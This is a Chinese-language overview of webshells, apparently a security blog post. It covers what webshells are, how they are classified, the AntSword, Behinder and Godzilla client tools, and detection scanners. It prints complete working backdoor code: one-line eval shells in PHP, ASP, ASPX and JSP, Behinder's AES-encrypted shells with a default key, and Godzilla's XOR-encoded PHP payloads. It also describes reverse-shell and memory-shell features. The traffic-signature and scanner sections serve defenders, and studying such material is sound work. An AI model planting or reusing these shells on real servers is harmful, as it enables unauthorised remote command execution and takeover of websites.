

# WebShell相关知识整理

## WebShell简介


### 概念

从名字来看Web指的是网页服务，Shell指的是计算机程序运行的指令命令。

WebShell通常是一个命令执行环境，其形式为ASP、ASPX、PHP、JSP等，还有比较特殊的无文件落地的内存马，也称为Web后门。黑客通常利用常见的漏洞，如文件上传漏洞、反序列化、SQL注入、远程文件包含、FTP，甚至使用跨站脚本攻击(XSS)等方式入侵网站，将WebShell后门文件放置网站服务器的Web目录中(或直接注入内存马)，然后利用浏览器或WebShell管理工具访问这些后门，获取命令执行环境，从而控制网站或Web服务器。

> 下面如无特殊说明，WebShell均指普通的有文件的WebShell。

以php语言为例，简单的一句话木马`demo.php`如下：

```
<?php @eval($_GET["cmd"]); ?>
```

上面的代码含义是：`eval() `函数会获取 `cmd `参数中代码来执行，将该文件放到目标网站的Web目录下，如访问`http://ip:port/demo.php?cmd=echo 'hello,world!';` ，结果会打印出 `hello world!`

可以通过访问该文件实现对网站服务器进行操控，包括执行系统命令、读取数据库、删除文件、修改主页等都可以做到。这样一个简单的语句就可以为黑客入侵打开一扇大门，让黑客可以随意地执行任意代码。

### 利用前提

* WebShell可以被放置在服务器的Web目录
* 知道WebShell文件的具体位置及文件名并且能访问到
* WebShell能被服务器解析执行
* 文件没有被杀毒软件查杀

### 分类

* 按照功能的多少，一般分为大马、小马、一句话木马三种：

大马：大马WebShell功能齐全，通常由多个文件组成，包括木马核心、二进制文件、配置文件等，能够管理数据库、文件管理、对站点进行快速的信息收集，甚至能够提权。由于这种大型木马的体量比较大，上传过程中容易被检测且不方便进行上传绕过测试。

小马：我们在上传文件的时候，可能会出现被限制上传的文件大小或是被拦截的情况，那么可以通过小马来上传大马，小马的功能通常是围绕文件管理的功能（文件上传、文件修改、新建文件等）

一句话木马：短小精悍、功能强大、隐蔽性好、使用客户端可以快速管理WebShell。

小马拉大马这个阶段使用的木马都是将功能函数写死在木马文件中，然后执行固定的功能，而一句话木马的原理则是在服务端就一句话，然后使用蚁剑等客户端通过发送功能函数到服务端，服务端将功能函数进行执行并将结果返回给客户端，然后解析并显示结果，这就是这两种阶段的核心区别。

* 按照脚本编写语言分类，可以分为PHP(文件后缀.php)、ASP(文件后缀.asp)、JSP(文件后缀.jsp)、ASP.NET(文件后缀.aspx)、PYTHON(文件后缀.py)、CGI(文件后缀.pl .cgi)等

常见的基础的一句话木马如下：

php

```php
<?php @eval($_POST['password']);?>
```

asp

```asp
<%execute request("password")%>
```

aspx

```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>
```

jsp无回显

```jsp
<%Runtime.getRuntime().exec(request.getParameter("password"));%>
```

jsp有回显

```jsp
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("password")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```


## WebShell管理工具

### 1. 蚁剑(AntSword)

AntSword是一个开放源代码，跨平台的网站管理工具，旨在满足渗透测试人员以及有授权的安全研究人员以及网站管理员的需求。 

github项目地址：https://github.com/AntSwordProject/antSword

官方加载器： https://github.com/AntSwordProject/AntSword-Loader

具体使用可以参考：https://www.yuque.com/antswordproject/antsword/lmwppk


**蚁剑支持的webshell类型如下：**


#### 安装步骤

1、下载源码和加载器两个文件并解压

2、进入loader文件夹，运行名为AntSword的可执行文件


3、点击初始化，选择前面解压好的源码文件夹


4、等待一会，安装完成，后面使用直接点击步骤1中的文件即可开启。


#### 基本使用

1、将WebShell上传到服务器


2、使用蚁剑连接


3、连接成功后即可右键选择


**虚拟终端执行命令**


 **选择文件管理**


**选择数据操作**


**选择浏览网站**


还内置了一个cookie记录的功能


**插件市场**

点击绿色图标即可安装，安装成功后可以在本地仓库查看。


插件使用：


**配置代理**


**编码设置**


还可以配置RSA加密


#### 流量

**php**马如下：

```php
<?php @eval($_POST['cmd']);?>
```

流量特征：base64_decode()


**asp**马如下：

```
<%eval request ("pass")%>
```

流量特征：=eval() cute


**jsp**马如下：

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>

```


此处passwd=后面的值为class文件的base64编码。


### 2. 冰蝎(Behinder) 

冰蝎”是一款动态二进制加密网站管理客户端。 

github地址：https://github.com/rebeyond/Behinder

"冰蝎"客户端基于JAVA，所以可以跨平台使用，23年最新版本为4.0.6，兼容性较之前的版本有较大提升。主要功能为：基本信息、命令执行、虚拟终端、文件管理、Socks代理、反弹shell、数据库管理、自定义代码等，功能非常强大

#### 安装及使用

下载冰蝎后，server文件夹内为默认的webshell代码，挑选需要的使用即可。

以php为例，加密密钥硬编码进了webshell代码里

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

```

jsp

```jsp
<% @page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<% !class U extends ClassLoader { 
    U(ClassLoader c) { 
        super(c); 
    } 
    public Class g(byte []b) { 
        return super.defineClass(b, 0, b.length); 
    } 
} 
%>
<% if (request.getMethod().equals("POST")) {
    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    session.putValue("u", k);
    Cipher c = Cipher.getInstance("AES"); 
    c.init(2, new SecretKeySpec(k.getBytes(), "AES")); 
    new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext); 
}
%>
```


文件上传步骤同上，右键-新增，填写好webshell信息


点击保存即可。右键可以打开，信息若填写正确，右侧的状态一栏，会出现绿色点


命令执行


虚拟终端


文件管理


内网穿透


反弹shell


数据库管理


平行空间


注入内存马（仅java）


#### 流量

AES加密的


### 3. 哥斯拉(Godzilla)

支持jsp、php、aspx等多种载荷，java和c#的载荷原生实现AES加密，PHP使用异或加密。 

github项目地址：https://github.com/BeichenDream/Godzilla/releases/download/v4.0.1-godzilla/godzilla.jar

#### 安装及使用

下载后直接执行如下命令即可运行

```
java -jar godzilla.jar
```

Godzilla支持的webshell类型如下：


首先用Godzilla生成payload


PHP_EVAL_XOR_BASE64生成的php文件：

```php
<?php
eval($_POST["pass"]);
```

PHP_XOR_BASE64

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}

```

PHP_XOR_RAW

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}

```

生成jsp/jspx的webshell：（代码太长就不再列举）


将文件上传到web服务器后，点击目标--添加




若需要配置代理，需要在这里直接配置，比蚁剑的好处就是可以为不同的webshell配置不同代理


测试一下连接，成功后即可点击添加


然后选中添加好的shell，右键-进入


命令执行：


文件管理（刚进入是空白，需要点刷新）


端口扫描


数据库


zip


Pwebshellscan


superTerminal


PetitPotam 工具可用于对远程系统的目标计算机强制进行身份验证，通常目的在于执行 NTLM 中继攻击。如果 PetitPotam 将目标锁定为域控制器，攻击者可以向中继域控制器身份验证的另一台网络机器进行身份验证。https://github.com/topotam/PetitPotam

#### 流量

PHP_EVAL_XOR_BASE64


PHP_XOR_BASE64


固定字符串如下，可检测

```
fL1tMGI4YTlj  79NDQm7r9PZzBiOA==
```

JAVA_AES_BASE64 jsp流量


### 4. C刀(Cknife)

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义。 

github项目地址：https://github.com/Chora10/Cknife


## WebShell查杀工具

当网站服务器被入侵时，我们需要一款WebShell检测工具，来帮助我们发现WebShell，进一步排查系统可能存在的安全漏洞。

### 1. D盾_Web查杀

阿D出品，使用自行研发不分扩展名的代码分析引擎，能分析更为隐藏的WebShell后门行为。 

兼容性：只提供Windows版本。 

工具下载地址：http://www.d99net.net/down/WebShellKill_V2.0.9.zip


### 2. 河马

专注webshell查杀研究，拥有海量webshell样本和自主查杀技术，采用传统特征+云端大数据双引擎的查杀技术。查杀速度快、精度高、误报低。 

兼容性：支持Windows、linux，支持在线查杀。 

在线查杀网站：https://n.shellpub.com/

官方网站：https://www.shellpub.com/


有点慢

### 3. 百度WEBDIR+

下一代WebShell检测引擎，采用先进的动态监测技术，结合多种引擎零规则查杀。 

兼容性：提供在线查杀木马，免费开放API支持批量检测。 

在线查杀地址：https://scanner.baidu.com/


### 4. Web Shell Detector

Webshell Detector具有“ Webshell”签名数据库，可帮助识别高达99％的“ Webshell”。 

兼容性：提供php/python脚本，可跨平台，在线检测。 

官方网站：http://www.shelldetector.com/ 

github项目地址：https://github.com/emposha/PHP-Shell-Detector


### 5. CloudWalker（牧云）

一个可执行的命令行版本 Webshell 检测工具。目前，项目已停止更新。 

兼容性，提供linux版本，Windows 暂不支持。 

在线查杀demo：https://webshellchop.chaitin.cn/ 

github项目地址：https://github.com/chaitin/cloudwalker


### 6. Sangfor WebShellKill


